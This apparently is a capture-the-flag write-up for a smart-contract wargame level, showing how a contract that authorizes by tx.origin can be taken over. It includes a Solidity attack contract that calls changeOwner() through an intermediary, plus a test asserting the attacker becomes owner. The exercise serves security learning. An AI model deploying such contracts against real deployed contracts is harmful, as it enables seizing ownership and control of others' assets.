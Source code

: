 # Objective

- Claim ownership of the contract

# Proof of Concept

The contract relies on `tx.origin` to perform Authorization checks. A malicious
intermediate contract (e.g: phishing attack) can call `changeOwner()` and pass
the function checks.


**TelephoneAttack.sol**

```solidity
interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {
    ITelephone public target;

    constructor(address targetAddress) {
        target = ITelephone(targetAddress);
    }

    function attack() public {
        target.changeOwner(msg.sender);
    }
}
```

```solidity
function testTelephoneHack() public {
    TelephoneAttack attackContract = new TelephoneAttack(levelAddress);
    emit log_named_address("tx.origin", tx.origin);
    emit log_named_address("msg.sender", attacker); // vm cheatcode set to attacker
    attackContract.attack();

    assertEq(telephoneContract.owner(), attacker);
}
```

